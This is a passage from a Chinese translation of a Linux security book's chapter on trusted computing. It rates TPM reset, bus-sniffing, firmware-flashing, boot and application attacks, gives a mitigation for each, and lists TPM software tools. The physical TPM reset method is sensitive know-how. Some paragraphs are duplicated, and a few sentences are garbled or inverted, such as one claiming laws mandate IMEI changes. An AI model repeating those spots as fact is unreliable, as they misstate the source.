- **低级软件攻击（Low-level software attacks）**：这些攻击针对固件和启动组件，它们在平台硬件启动和操作系统启动之间运行，并初始化平台的各种元素。
- **系统软件攻击（System software attacks）**：控制软件包括操作系统以及可能存在的虚拟机监控器（`Hypervisor`）。攻击此类软件的目的是从所有者或用户手中夺取控制权。
- **应用程序攻击（Applications attacks）**：在执行栈的最顶部，应用程序直接与用户交互，应用程序攻击与各种文件以及显示或记录的信息有关。

这种分类可以通过从顶部（硬件）到底部（终端应用程序）检查可信平台来实现。总体，一个完整的可信平台应该能够防御所有四类攻击向量，但由于对计算平台不同元素之间传统分离的担忧，这样做极其困难。在接下来的章节中，我们将按照这个简单的分类，详细介绍可信计算如何帮助检测和防止这些攻击。

# 硬件攻击

计算系统根本上依赖于硬件执行软件组件。信任计算（Trusted Computing）引入了一个新的硬件组件——`TPM`（尽管在其他场景下它可能不是硬件），以及新的 `CPU` 指令，以应对在操作系统下方引入管理器（hypervisors）的引入。所有这些元素的设计都是为了增加物理攻击的难度，尽管出于机密性甚至安全性的考虑，这项技术很少被讨论（因为并非所有秘密都应该处于公共领域）。

## TPM 重置攻击

| 流行度 | 7 |
| :--- | :--- |
| 简单性 | 7 |
| 影响 | 10 |
| 风险等级 | 8 |

在 `PC` 平台上，`TPM` 芯片连接到低引脚数（`LPC`）总线，这是启动时第一个可用总线。`TPM` 容易受到非常简单且有效的攻击，即用电线将 `LRESET#` `TPM` 芯片物理连接到电极地。事实上，这可以在不实际改变平台状态的情况下实现平台（重启），因为操作系统和应用程序仍在不受影响的情况下运行。该芯片通过重新加载 `TPM` 设备驱动程序并发送启动命令来重新初始化，这通常是 `BIOS` 在启动时可用的功能。在这种状态下，`PCR` 具有默认值（例如零），现在它们可以使用所需的值进行扩展（extend），而远程证明（remote attestation）无法看到这种差异，并将信任平台尚未重新初始化。

此外，`TPM` 重置攻击会影响受密封（sealing）机制保护的秘密，该机制扩展了绑定（binding）机制。绑定是指使用 `TPM` 生成并保护的密钥对数据进行加密的能力，而密封在此机制基础上增加了可能性，即在加密时指定平台必须处于何种状态才能解密数据。因此，这种攻击破坏了密封属性，因为平台状态（或存储在 `PCR` 中的测量值报告的状态）可以更改为任何所需值。

## 防止 TPM 重置攻击

使用一些最古老的 `TPM` 技术（即在扩展卡上提供的 `TPM`）在技术上非常难以防止 `TPM` 重置攻击。如果 `TPM` 集成在主板上，执行该攻击的难度会变得更加复杂，因为访问芯片引脚变得更加困难。另一方面，由于攻击者的成本极高，这种攻击的风险非常低：攻击者不仅出现在电脑前，还必须打开电脑，找到 `TPM` 和正确的引脚，并将电线放置在正确的位置（小心不要重置任何其他物理接口或损坏硬件）。

显而易见的保护机制是让攻击者难以打开电脑，例如通过将机箱面板焊接在一起。

英特最近宣布它将把 `TPM` 集成在其芯片组内部。虽然这种对硬件平台架构的更改在安全性方面尚未被理解，但它将自动防止 `TPM` 重置攻击，因为将不再能够物理访问 `TPM`。

## 总线嗅探攻击

| 流行度 | 5 |
| :--- | :--- |
| 简单性 | 3 |
| 影响 | 7 |
| 风险等级 | 5 |

`TPM` 连接到 `PC` 平台上的 `LPC` 总线，这是启动时足够早就可用的唯一总线。由于该总线的频率较低（33 MHz），监听总线并尝试确定哪些信号来自或发往 `TPM` 是相当容易的。虽然这种攻击需要特殊的硬件工具，但在通信速度快得多的总线线上进行嗅探要容易得多。

与 `TPM` 重置攻击类似，扩展卡上的旧版 `TPM` 比集成在主板上的 `TPM` 更容易访问。但这种攻击的缺点是需要硬件专家知识，因为秘密（例如加密密钥）与环境共享且不以明文形式可见。

## 防止总线嗅探攻击

可以使用与 `TPM` 重置攻击相同的机制防止这种攻击。在未来的代平台上，可能会使用集成到芯片组中的 `TPM`，从而不再使用 `LPC` 总线。

## 内存闪刷攻击

| 流行度 | 10 |
| :--- | :--- |
| 简单性 | 7 |
| 影响 | 10 |
| 风险等级 | 9 |

### 破解暴露风险：安全与解决方案

闪刷内存的案例在轻量级平台上讨论最好。在更强大的平台上（例如 `PC` 和服务器），闪刷内存允许您更改平台配置和执行环境，使攻击者能够绕过许多功能（例如锁定），并获得更危险的能力——更改国际移动设备标识（`IMEI`），使其更难以追踪。

由于环境非常不同，在 `PC` 平台上实施诸如锁定之类的限制可能是困难的，甚至是不可能的。手机携带的信息比 `PC` 手机，尽管这些信息在用户看来可能更重要。移动运营商长期以来一直根据这些假设运行，因此在这种情况下，确保执行环境无法被更改是更可以接受的。执行强制不仅是业务模式的要求，某些国家和国际法律还强制更改 `IMEI`。

## 防止内存闪刷攻击

使用更强形式的验证启动：安全启动（secure boot）来确保执行环境正是运营商所预期的那样。验证启动通过在每个组件启动之前测量所有组件并将这些测量值存储在 `TPM` 中，对正常启动过程进行了扩展。安全启动通过在组件启动之前比较这些测量值与预期值对验证启动进行了扩展。如果组件的测量值与预期值不符，启动将停止。这种安全启动机制仅在带有 `TPM` 的平台上可用，通过在 `TPM` 中启用名为参考完整性度（`RIMs`）的远程控制实体并在启动时进行检查来实现。

任何闪刷内存的尝试将会在本地锁定设备，防止用户使用它。

## 安全指南

确保物理安全满足所有系统的要求。信任计算并没有消除对物理安全的需求，而是依赖于组件的安全性。通常情况下，安全性取决于最薄弱的环节，因此要仔细评估攻击者如何进入建筑访问计算机，保护措施可以简单到确保人员或摄像头始终盯着电脑，或者它是锁闭的。

## 第 12 章：信任计算

调整您的信任计算解决方案。个人电脑、服务器和手机手机共享相同的安全属性，但在具体需求和实现方面存在差异。如果您的系统由许多平台组成，请使用相同的信任机制构建它们，以便管理。在 `PC` 和服务器网络的情况下，操作性至关重要，您必须确保每个信任系统都能与其可能的邻居进行交互。

## 底层软件攻击

信任计算旨在保护整个平台和架构，其目的是依赖所有用于启动系统的组件。在启动时，执行各种底层软件以桥接需要初始化的特定硬件与运行在其上的通用操作系统之间的差距。所有这些组件按顺序链接，每个组件的操作都依赖于前一个组件。

`PC` 的正常启动过程由于历史原因变得复杂。`PC` 的正常启动过程由以下序列组成：

- `BIOS` 是平台启动时执行的第一段软件，用于执行所有基本操作，从定位可用设备到初始化它们。用户可以在执行期间通过按特定键配置 `BIOS` 软件。信任根（`CRTM`）包含在称为 `BIOS` 引导块（`BBB`）的 `BIOS` 部分，它是启动期间执行的第一段不可更新代码。
- 扩展型 `ROM` 某些外设和主板组件在 `BIOS` 闪存中有只读存储（`ROM`）。该 `ROM` 包含初始化外设或组件的代码。`BIOS` 负责执行扩展型 `ROM` 并确保只有在扩展型 `ROM` 执行成功后相应的设备才可用。
- 3. 主引导记录（`MBR`）`MBR` 指定了存储在硬盘上的代码，用于确定在活动分区中查找启动程序的位置（活动分区可能列在分区表中），如果没有找到活动分区，则加载启动程序以使用户户选择启动哪个分区。

### 破解 Linux 安全：Linux 安全秘密与解决方案

- 4. **启动管理器**（Boot manager）：启动管理器允许用户在多系统启动平台中选择启动哪种操作系统。如果只安装了一个操作系统，它将自动切换到相应的操作系统加载器。
- 5. **操作系统加载器**（Operating system loader）：在启动过程中，操作系统加载器负责为操作系统内核准备环境。这取决于操作系统和加载器，可能涉及许多操作，从确定要启动哪种内核到准备内存和 `CPU` 的访问。

尽管此处描述了通用结构，但许多启动过程各不相同，这不仅是因为操作系统不同，还因为硬件配置以及穿插在启动组件之间的特定元素是多样的。尽管 `BIOS` 仍然是现代计算机最常用的固件，但一种新的标准的可扩展固件接口（`EFI`）最近已获得批准并正逐渐进入计算世界。`EFI` 通过消除对特定组件的需求并提供一个设计良好的微执行环境，极大简化了启动过程。由于目前 `EFI` 固件较为罕见，本章将仅考虑 `BIOS` 固件。

当启动过程结束时，操作系统内核被放入内存并准备好执行，所有组件和外设都已初始化。一旦控制权移交给操作系统内核，启动组件就不再需要。

### 启动过程攻击

| 流行度: | 10 |
| 简单性: | 7 |
| 影响性: | 10 |
| 风险评分: | 9 |

启动过程主要是一个软件过程，因此比硬件级组件更容易受到攻击。由于启动过程差异巨大，攻击该过程通常需要专门了解目标平台。启动过程中的每一步都是一个潜在目标，其软件箱漏洞被利用以注入恶意代码，这些代码会损坏系统部分，从而为攻击者带来优势。

例如，这种攻击曾在微软 `Xbox` 游戏系统上实施，目的是破解用于将微软代码锁定到机器中的特定组件序列。攻击的目标是启动替代操作系统或运行非法获得的游戏。`Xbox` 的启动过程是通过解密一个包含关键代码的秘密 `ROM` 被破解的，这些代码包括验证各种组件完整性的代码。

### 缓解启动过程攻击

可信计算（Trusted Computing）并不防止启动过程攻击，而是通过执行认证启动（authenticated boot）使其变得可检测。认证启动利用可信计算的功能扩展了正常的启动过程，以跟踪平台状态。认证启动植于与启动过程相同的功能组件，即包含 `CRTM` 的 `BIOS`。`BIOS` 能够感知 `TPM`，因此能够访问 `LPC` 总线上的 `TPM`。在这种情况下，`CRTM` 是信任根且必须是健壮的，这通常是事实，因为它不像其他软件那样有缺陷，并且存储在内存的不可修改的分区中。认证启动过程通过确保启动链中的每个组件在将控制权移交给该组件之前测量下一个组件并将测量结果存储在 `TPM` 内部的 `PCR` 中，从而建立信任链。认证启动的每个组件都必须符合可信计算标准，能够（直接或通过调用已启动的组件）使用当前 `TCG` 规范规定的 `SHA-1` 哈希函数测量程序。

如果执行了启动过程攻击，`PCR` 中的测量值将与实际组件的测量值不匹配，从而揭示攻击。此外，所有密封到平台配置的机密除非平台恢复到预期状态，否则无法解密。

典型的认证启动遵循此处描述并在图 12-3 所示的执行序列：

- 1. `PCR[0]` 到 `PCR[15]` 被重置，即其内容置零。
- 2. `CRTM` 分别测量 `BIOS` 固件及其关联数据（硬件配置），将测量结果分别存储在 `PCR[0]` 和 `PCR[1]` 中，然后启动其余 `BIOS` 固件。
- 3. `BIOS` 固件测量可选 `ROM` 及其配置数据，并将结果分别存储在 `PCR[2]` 和 `PCR[3]` 中。
- 4. 同样，主引导记录（`MBR`）代码部分和分区表的测量值分别存储在 `PCR[4]` 和 `PCR[5]` 中。
- 5. `MBR` 通过确定活动启动分区开始，搜索并加载 `BOOTMGR` 代码，对其进行测量并将测量结果存储在 `PCR[9]` 中。
- 6. 可以测量若干条辅助信息并将测量结果存储在 `PCR[11]` 中，例如当前启动状态、操作系统机密和全磁盘加密密钥。
- 7. `BOOTMGR` 测量操作系统加载器（可能在用户选择操作系统之后），将测量结果存储在 `PCR[10]` 中，最后将控制权移交给指定分区的操作系统加载器。此时，操作系统加载器负责在将控制权移交给操作系统之前测量所有组件的完整性。随后，操作系统可以反过来确保系统文件（休眠、交换、崩溃）以及所有加载到认证登录的可执行文件的完整性。

缓解启动过程攻击的另一种创新方法是消除对启动过程的依赖。你可以在最近的系统中通过一种特殊的测量信任根（`RTM`），称为动态 `RTM`（`DRTM`）来实现这一点，它用于以可信的方式启动虚拟化程序。`DRTM` 完全独立于传统的启动过程，确保硬件平台处于已知状态。由于目前 `EFI` 固件较为罕见，本章将仅考虑 `BIOS` 固件。

当启动过程结束时，操作系统内核被放入内存并准备好执行，所有组件和外设都已初始化。一旦控制权移交给操作系统内核，启动组件就不再需要。

### 破解 Linux 安全：Linux 安全秘密与解决方案

缓解启动过程攻击威胁的另一种创新方法是消除对启动过程的依赖。你可以在最近的系统中通过一种特殊的测量信任根（`RTM`），称为动态 `RTM`（`DRTM`）来实现这一点，它用于以可信的方式启动虚拟化程序。`DRTM` 完全独立于传统的启动过程，确保硬件平台处于已知状态。由于目前 `EFI` 固件较为罕见，本章将仅考虑 `BIOS` 固件。

### 安全指南

检查启动过程的安全。在检查任何操作系统安全性之前，确保每台计算机的组件都是最新的。特别是固件，要通过检查其配置来查看意外选项。为了使用你的可信系统，你必须更新所有启动组件。

## 系统软件攻击

系统软件是任何计算系统的关键部分。在可信平台上执行时，操作系统可以确信拥有可信功能，并可能通过认证启动启动，从而确保硬件攻击可以被检测。这大大提高了操作系统的安全性，因为内核可以依赖安全假设，并在可用服务（特别是 `TPM`）之上进行构建。最终，这为以信任的方式使用系统提供了稳健的基础。

### 修改的系统组件攻击

| 流行度 | 10 |
| 简单性 | 8 |
| 影响性 | 10 |
| 风险评分 | 9 |

导致这些攻击向量的第二类漏洞是通过配置数据。随着系统软件变得越来越复杂，配置整个操作系统变成了一个枯燥且困难的任务，导致配置错误的服务线程，这些线程会导致系统组件崩溃或允许攻击者

# 攻防破解 Linux：Linux 安全秘密与解决方案

绕过安全策略。尽管操作系统在安全性方面在不断改进，但功能膨胀（feature creep）结合日益增多的 `Linux` 发行版，通过倍增可能的配置的数量增加了攻击面。


这类漏洞会被恶意代码利用，向系统注入错误数据或恶意软件。这在实际上不仅会损害系统的安全性，还会让用户认为系统是安全的，在这种情况下，机密信息可能会泄露。许多恶意程序在进入系统后会尝试禁用杀毒软件和防火墙等安全工具，然后将其从系统中隐藏，可能处于休眠状态以便通过其行为被发现。

## 缓解被修改的系统组件攻击

`TPM` 使运行在可信平台（Trusted Platform）上的任何软件能够使用强大稳健的加密能力来保护代码和数据，无需除 `TPM` 程序外的特定软件。但由于关键的性能需求，这些机制在操作系统中很少使用。`TPM` 加密硬件加速带来的性能提升（尽管这由于 `LPC` 总线上的缓慢通信而大大减少）并不能抵消操作系统内核所需的复杂修改。另一方面，加密能力可以用于对数据进行高效实时加密，因为文件系统增加了加密密钥位于 `TPM` 内部的保护。

身份验证启动过程也可以扩展到测量操作系统的各个部分。由于组件数量显著增加，这无法以与启动过程中相同的方式进行。可能存在几百个操作系统内核、配置和服务文件，并需要进行测量。相反，操作系统内核必须被扩展，以负责测量其不同的组件。例如，`IBM` 的测量架构（Measurement Architecture）建议使用一个简单的 `Linux` 内核模块来管理已修改组件列表以及这些组件的累积测量值。

为了完全缓解被修改的系统攻击，你必须控制操作系统可以做什么，并独立于操作系统强制执行安全策略。虚拟机管理器（Hypervisors）为硬件设计，能够运行在操作系统之下，拦截所有对硬件的调用并确保它们是合。除了上一节描述的 `DRTM`（动态根信任度量）功能外，新的 `Intel` 和 `AMD` `CPU` 架构提供了新的 `CPU` 指令来促进虚拟机程序的执行，主要为了减少虚拟机程序引入的性能开销（尽管虚拟机程序有时可以通过减少内存访问量——最慢的操作——来提高操作系统的性能）。除了将操作系统严格限制在给定的内存空间外，虚拟机管理器还控制各种系统调用，并防止某些软件修改或访问未经授权的内存区域。通过这种方式，根内核将无法安装到操作系统内核中，木马无法打开它们不应该打开的安全端口。

# 第 12 章：可信计算

## 安全指南

仔细选择操作系统组件和服务。应用机制经济性原则（principle of economy of mechanism），即任何不是明确需要的东西都不应安装或启用。这一原则不仅会减小操作系统的规模和攻击面，还将通用的计算机管理。

保持系统更新。持续对系统打补丁是必要的，因为攻击者现在可以很容易反向工程发布的安全补丁，并立即利用被补丁修复的漏洞。通过要求软件补丁带有数字签名，可以增加额外的安全层，以确保文件的真实性和完整性。

考虑虚拟机管理器。在配置良好的虚拟机管理器之上运行操作系统，可以让你根据所需的完整性和机密性级别，限制对持久性存储和网络的访问。虚拟机管理器有时被用于创建非持久化执行环境，用于执行测试或不可信的操作（例如浏览网页），通过拒绝访问所有可信功能、不允许系统状态持久化以及防止用户在不可信的存储设备上保存数据，从而防止任何安全问题。

## 应用程序攻击

最后，可信计算旨在提高整个平台的安全性，不仅通过在计算架构的底层提供构建模块，还通过直接提高应用程序的安全性。软件支持（如 `TCG` 软件栈 `TSS` 或或其他实现在可信计算能力之上的安全服务）可用于直接调用加密原语和安全管理函数，或创建并安全地存储加密、解密或签名密钥。每个应用程序不仅可以通过依赖这些能力的稳健实现而变得更加健壮，还可以依赖底层软件（特别是操作系统）来执行安全策略，从而防止意外的修改或访问。

应用程序攻击的困难性在于现有应用程序的巨大多样性，这些程序不仅实现了（有时是冲突的）功能，还以各种方式实现它们，增加了额外的复杂性。我们在这里只能列出可能的攻击向量；在不完全将此书致力于该主题的情况下，想要穷举是不可能的。此外，可信计算提供的许多新安全功能可以以多种方式应用于防止这些攻击向量并保护应用程序。

### 常见应用程序攻击

| 指标 | 分数 |
| :--- | :--- |
| 流行度 | 9 |
| 简单性 | 9 |
| 影响 | 10 |
| 风险等级 | 9 |

应用程序漏洞并不比操作系统漏洞不频繁或不关键，它们通常具有更大的风险，因为它们直接操纵用户数据并提供用户期望从计算平台获得的服务。这些攻击对攻击者也极具吸引力，因为它们提供了对用户及其数据的直接访问。此外，应用程序攻击的形式与计算架构较低层次执行的攻击非常不同，它们利用社交工程技术诱导用户相信虚假信息（例如网络钓鱼）或代表攻击者执行操作。

攻击向量包括破坏四个基本安全属性：身份验证、授权、完整性和隐私。这些违规行为后果之前描述过，包括欺骗或身份欺诈、未经授权的访问、对数据或代码的未经授权或隐藏的修改，以及违反机密（隐私）。

除了上述攻击向量外，应用程序还容易受到代码漏洞的利用。该向量将在第 16 章中进行更详细的描述。

## 防止常见应用程序攻击

可以使用认证的强身份提供身份验证，将加密密钥与相应的证书和平台配置相结合。通过这种方式，用户可以创建一系列身份，在必要时保持匿名，以便对其应用程序进行身份验证并被验证。这种身份验证可以是双向的，因为可以通过测量其可执行文件和配置文件来了解应用程序的身份。这样做扩展了传统的登录/密码范式，但需要管理这些信息的新方法。

授权直接在操作系统中实现，得益于可信计算促进的策略执行，它是稳健的。这依赖于对于当前属性的反向信任链：应用程序无法在不被察觉的情况下损坏操作系统；操作系统无法绕过虚拟机管理器指定的安全策略；虚拟机管理器以可信的方式在硬件组件之上启动，而这些硬件组件可能通过了认证以证明其稳健性。这一信任链确保了如果发生了攻击，你可以检测到它并采取适当的行动，例如通知系统管理员或尝试恢复受攻击的组件。操作系统必须决定执行何种策略，因此糟糕的设计和编程仍可能导致相同的攻击向量开启。

### 完整性与机密性

完整性是可信计算的核心属性，通过测量概念以及围绕其构建的所有设施来实现。可信计算实际上使你能够验证任何文件的完整性并防止任何未经授权的修改。然而，应用程序的完整性可能比底层系统软件的完整性更为复杂，因为每个应用程序对哪些文件需要完整性的定义可能很大不同，包括作为库的系统文件，这样系统就必须验证极大量文件的完整性。

机密性可以通过对数据绑定（binding）或密封（sealing）来确保，具体取决于应用程序的需求。如果操作系统提供全盘加密，也可以透明地使用，从而降低应用程序的复杂性。隐私也可以从可信计算中极大获益，因为它内置了若干项功能：证明身份密钥（`AIKs`）可以由 `TPM` 使用其背书密钥（`EK`）创建，并由 `Privacy-CA` 认证，这些 `Privacy-CA` 是唯一能够将 `AIK` 追溯到其创建它的 `EK` 的实体；`DAA` 协议实现了类似的机制，但它使用更复杂的加密机制（例如零知识证明）代替了使用 `EK` 来证明 `TPM` 的有效性，以确保 `TPM` 和用户的匿名性。

## 安全指南

仔细检查应用程序。根据你的计算系统所使用的应用程序，你可能对一个或两个主要的安全属性有更多要求，这需要更仔细地研究如何满足这些属性。应用程序的需求也将决定你需要执行何种策略，以及如何改进应用程序安全性的方法。

建立公密钥基础设施（`PKI`）。加密学是可信计算的核心。加密学的强度在于用于加密、解密和签名数据的数据算法。为了发挥其全部威力，你需要建立自己的 `PKI` 来指定你的信任模型，或者将此系统外包给确保加密服务的提供商。这是一个关键步骤，希望这一步不仅能让你在你的系统上启用可信应用程序，还能让你妥善地管理它们。

# 对可信计算应用程序的通用支持

在本节中，我们将描述自由/开源软件社区可用的各种可信计算工具。这些工具对于技术开发以及在下一代计算系统中实现安全的能力至关重要。尽管大多数工具仍处于初步版本且演进迅速，但它们都提供了简单、快捷的访问可信计算功能的方法。

## TPM 设备驱动

`TPM` 设备驱动从 `Linux` 内核 `2.6.13` 版本开始包含在标准 `Linux` 内核中，并带有 `Infineon`、`Atmel` 和 `NatSemi` `TPM` 的特定厂商驱动程序。`TPM 1.2` 版本带有一个通用接口（`TPM` 接口规范/`TIS`），该接口也包含在最近的 `Linux` 内中。`TPM` 基本通过 `/dev/tpmX` 作为字符设备访问。

## TrouSerS

`TrouSerS` 是一个采用通用公共许可证（`CPL`）许可的 `TSS` 栈，已广泛用于开发可信计算系统和工具。`TrouSerS` 的当前公开版本仅支持 `TSS` 的 `1.1b` 版本规范（`TCG` 一些时候发布了 `1.2` 版本接口规范，增加了对 `DAA`、委托、时间戳和 `SOAP` 接口等新功能的支持）。可以在 `http://trousers.sourceforge.net` 获取 `TrouSerS`。

`TrouSerS` 还包含一组面向高级 `Linux` 用户的开源命令，这些命令与 `TPM` 和 `TSS` 交互，并提供了获取和声称 `TPM` 所有权的基本接口；创建、获取和限制背书密钥（`EK`），以及设置 `TPM` 的活动、启用和能力标志。`TPM` 工具可以从 `http://sourceforge.net/showfiles.php?group_id=126012&package_id=153880` 获取。

在不深入研究 `TSS` 架构（750页）的情况下，可以将 `TSS` 视为一个三层包，每层都为通用应用程序提供服务（见图 12-4）：

- `TPM` 设备驱动库（`TDL`）定义了 `TPM` 的标准接口，使得所有 `TPM` 在此接口（`Tdli`）上具有相同的认知和行为，从而抽象了 `TPM` 设备驱动并使 `TSS` 不依赖于操作系统。`TDL` 还在用户模式和内核模式之间切换 `TPM` 设备驱动。

- `TSS` 核心服务（`TCS`）层提供了对所有 `TPM` 原语和更高级函数（如密钥管理）的访问。`TCS` 实现了 `Tsci` 接口，旨在提供一种直接、简单的方法来控制和请求 `TPM` 的原子服务。

- `TSS` 服务提供者（`TSP`）层包含最多的模块，并为最抽象的应用程序实现了一个丰富的面向对象的接口（`Tspi`）。虽然不是架构要求，但 `TSP` 会直接从 `TCS` 获取许多 `TCS` 服务。

`PKCS#11` 定义了一个 `API`，用于与持有加密数据和执行加密函数的设备交互。可信计算之上的 `PKCS#11` 支持允许应用程序通过使用加密服务提供商（`CSP`）轻松利用 `TPM` 的功能。`TrouSer` 提供了对 `PKCS#11 API` 支持；更多信息请访问 `http://trousers.sourceforge.net/pkcs11.html`。

尽管 `TSS` 是任何可信计算应用程序开发的关键组件，但重要的是，`TSS` 本身并不是一个可信组件；其庞大的代码量和复杂性使其难以检查。相反，`TSS` 是访问可信计算功能的一种方便方式，特别是无需担心并发访问，因为 `TPM` 并不管理这一点。此外，`TSS` 标准极其复杂，并导致了各种 `TSS` 栈结构，因为某些元素是可选的，而某些细节留给了实现者去指定。

## TPM 模拟器

`TPM` 模拟器为 `Linux` 实现了一个基于软件的 `TPM`，完全在软件中模拟 `TPM` 的内部结构。`TPM` 模拟器旨在让人们出于教育和实验目的探索 `TPM` 功能。该软件作为 `2.6` 内核的模块安装，实现了大部分但并非所有 `TPM 1.2` 的功能。

`TPM` 模拟器由瑞士黎世大学的 `Mario Strasser` 开发，可以在 `http://tpm-emulator.berlios.de/` 获取。

## jSSS 封装

`jSSS` 封装由 `AIK`（格拉茨理工大学）开发，为 `Java` 语言实现了 `TSS` 的 `TSP` 层。它为 `Java` 开发者提供了面向对象的接口，以便他们可以直接开发可信计算应用程序。

除了 `jSSS`，还提供了 `TPM Tools`，它包含一组面向高级 `Linux` 用户的命令行实用程序，类似于 `TrouSer` 的 `TPM` 工具。`j Tools` 还可以使用 `AIK` 开发并发布的 `TCCert` 工具创建 `AI` 和证书（准确来说是自签名证书，因为此工具没有使用证书体系；最近发布了 `Privacy-CA` 包以提供更通用的证书）。`TCCert` 实现了“`TCG` 基础设施规范 1.0”，并支持创建以下凭据：背书密钥（`EK`）凭据（确保 `TPM` 是有效的）、平台背书（`PE`）凭据（确保 `TPM` 是按照 `TCG` 规则和指南添加到平台的）以及证明身份密钥（`AIK`）凭据（确保 `AIK` 与有效的 `TPM` 关联）。符合性和验证凭据（分别确保平台符合 `TCG` 标准和最佳实践，以及完整性措施正确）尚未被 `TCCert` 支持。

此外，`AIK` 用 `Java` 实现了 `XML` 密钥管理规范（`XKMS`）`2.0` 版本，这是万网标准联盟（`W3C`）定义的标准，也是用于可信计算基础设施公密钥基础设施（`PKI`）协议候选之一。`XKMS` 用于管理和交换加密密钥，并为许多密钥管理系统（如 `X.509`、`SPI` 或 `PGP`）提供了通用接口。`jSSS`、`TPM`、`TCCert` 和 `XKMS` 可以从 `http://trustedjava.sourceforge.net/` 获取。

## TPM Manager

`TPM Manager` 是一个用于检查和管理 `TPM` 的易用直观图形界面（`GUI`）。它使用 `Qt` 库编写，为系统管理员提供了调用 `TPM` 芯片基本命令所需的大部分功能。目前仅在 `Linux` 下运行，可以在 `http://sourceforge.net/projects/tpmmanager/` 获取。

# 可信计算应用示例

我们将通过几个在 `Linux` 环境中利用可信计算（Trusted Computing）特性的现有应用来结束本章。在写作时，所有这些应用均已公开，尽管它们仍处于开发阶段。想要了解更多关于可信计算应用的读者可以查阅以下网站：`http://www.tonymcfadden.net/tpmvendors_arc.html`。

## Enforcer

`Enforcer` 是最早实现的可信计算应用之一。`Enforcer` 使用 `TPM` 在 `Linux` 中实现了身份验证的启动过程，并基于 `Lilo` 引导程序。`Enforcer` 由达特茅斯学院计算机科学系的 `John Marchesini`、`Sean W. Smith`、`Owen Wild` 和 `Rich MacDonald` 领导，但目前已停止更新。最新版本可以从 `http://enforcer.sourceforge.net/` 下载。

## TrustedGRUB (tGRUB)

`TrustedGRUB (tGRUB)` 是 `GNU GRUB` 引导程序的一个版本。该扩展包含了一些修改，这些修改使得它能够检测并支持由 `TPM` 提供的实际可信计算能力，并符合 `TCG` 制定的特定 `PC` 规范。`iGRUB` 提供的主要功能是在启动过程中对文件进行度量，并将性测试的结果扩展到 `TPM` 的平台配置寄存器（`PCR`）中。与使用 `Lilo` 的 `Enforcer` 不同，`iGRUB` 支持多进程。`tGrUB` 可以从 `http://www.trust.de/home/connected-projects/tgrub/` 下载。

一个名为 `Trusted Grub` 的类似引导程序曾作为 `TrouserS` 应用集的一部分实现。它只支持 `TPM 1.1` 版本且已不再开发。更多细节请见 `http://trous.sourceforge.net/grub.html`。

## TPM Keyring

`TPM Keyring` 设计为 `TPM` 创建并保护的密钥的管理器，它使用加密的 `eCryptfs` 文件系统并构建在 `TrouSer TSS` 之上。`TPM Keyring` 允许用户组定义共享权限并使用任何可用方法安全地交换这些文件。组创建者可以控制谁成为组成员以及成员是否可以重新分发组密钥。

当前的 `TPM Keyring` 应用与最新的 `eCryptfs` 规范兼容。可以从 `http://trous.sourceforge.net/tpm_keyring2/quickstart.html` 下载。

## Turaya.VPN 和 Turaya.Crypt

`Turaya.VPN` 是欧洲多边安全计算基础（`EMSCB`）德国项目的一款软件。该虚拟专用网络（`VPN`）客户端使用 `L4` 虚拟机执行与旧操作系统及所有其他应用程序完全隔离的运行。`Turaya.VPN` 执行的加密操作包括创建和管理 `VPN` 软件的密钥和证书，任何恶意软件无法监听和篡改。`Turaya.VPN` 可以与其他标准 `VPN` 客户端（如基于 `IPSec` 的客户端）协作，以透明的方式确保互操作性。它通过动态主机配置协议（`DHCP`）集成了防火墙组件和网络配置工具。`Turaya.VPN` 的当前部署包括扩展软件以支持 `TPM` 的绑定能力。

`Turaya.Crypt` 同样由 `EMSCB` 项目开发，为 `Linux` 提供全磁盘加密功能。它与其他许多机制不同之处在于它强烈将关键密钥信息和加密操作从 `Linux` 内核及恶意用户隔离开，以防止未经授权的访问和监听。与 `Turaya.VPN` 类似，得于 `L4` 虚拟机，加密/解密服务在操作系统和其他所有软件之外。用户使用可信的 `GUI` 向此服务提供密码，该 `GUI` 不会被其他用户访问或操纵。该密码随后被用于生成用于加密和解密磁盘上数据（即文件）的加密密钥。

`EMSCB` 网站的下载页面链接到这两个应用的 `Live CD` 和源代码。详见 `http://www.emscb.com/content/pages/turaya.downloads`。

## Open Trusted Computing

`OpenTC` 项目开发了一个自由/开源的软件计算系统，它将可信计算的所有元素结合在一起：`TPM`、`TSS`、（`AMD` 的 `SKINIT` 指令）、`Xen` 以及 `L4` 开源虚拟机。它提供了一个利用这些组件的应用。`OpenTC` 系统独特地结合了所有现有组件（`L4` 和 `Xen`、`TPM` 模拟器、`TrouSerS TSS`、`Grub` 和 `jSS`），从而为实验和开发可信计算应用提供了一个完整且可用的环境。

`OpenTC` 系统为用户提供身份验证启动，并提议启动不同配置的两个虚拟机之一。一旦启动，可信区域（其磁盘文件会被度量）将执行 `TPM` 管理操作（例如获取所有权），并使用 `SSL/TLS` 隧道建立可信通信，以实现应用程序客户端和服务器软件之间的双重远程认证。可以使用各种工具来检查 `TPM` 及其 `PCR` 的状态，并编写脚本和应用程序。

`OpenTC` 项目开发的概念原型遵循用户以可信的方式连接到银行服务器的场景。利用可信计算可以防止诸如钓鱼攻击（即伪装成服务器）或欺骗攻击（即为连接提供虚假身份）。


来自 OpenTC 概念原型的源代码和 Live CD 可在 `http://www.opentc.net/index.php?option=com_content&task=view&id=27&itemId=41` 获取。

# TCG 工业应用

由 Roger L. Kay 编写的《Trusted Computing Is Real and It’s Here》文档（可于 `https://www.trustedcomputinggroup.org/news/Industry/Endpoint_Technologies_Associates_TCG_report_Jan_29_2007`）描述了在大公司中实现的、作为安全问题解决方案的可信计算应用。各种用例显示：一家日本制药公司能够访问其网络和机密数据（在 20,000 台计算机中有 50 台来源不明），而美国的一家连锁披萨公司集中管理其门店，同时确保了员工的隐私得到尊重。这些用例证明了可信计算解决方案的力量和有效性，以及它们如何变得普及并确保下一代系统的安全和隐私。

## 总结

可信计算是一项近期出现的新兴安全技术，旨在将下一代计算平台的安全性提升到新高度。这是一个基于可信计算组织（TCG）规范的通用范式，该工业联盟确保了标准的开放性和实现之间的互操作性。

可信计算在计算机架构中引入了许多新组件，并主要依赖可信平台模块（TPM），这是一种提供加密能力和安全存储的芯片。通过 TPM，可以对可信平台上运行的软件进行度量，从而通过确保执行序列形成信任链并明确定义平台状态来确保完整性。

除了 TCG 组件外，可信计算还利用虚拟化技术在限制环境中执行操作系统并以严格的方式执行安全策略。虚拟机与 TCG 能力的结合为系统设计人员和开发者提供了实现可信系统的基础模块。

可信计算的许多组件自由/开源软件社区即可获取，为该社区以及整个计算行业提供了一个令人兴奋的机会，以反击阻碍从电子商务到电子健康等领域发展的安全威胁。由于这项技术仍然很新且标准不断演进，存在许多机会来开发可信系统并改进该范式。

# 第三部分

## 第 13 章

### 案例研究

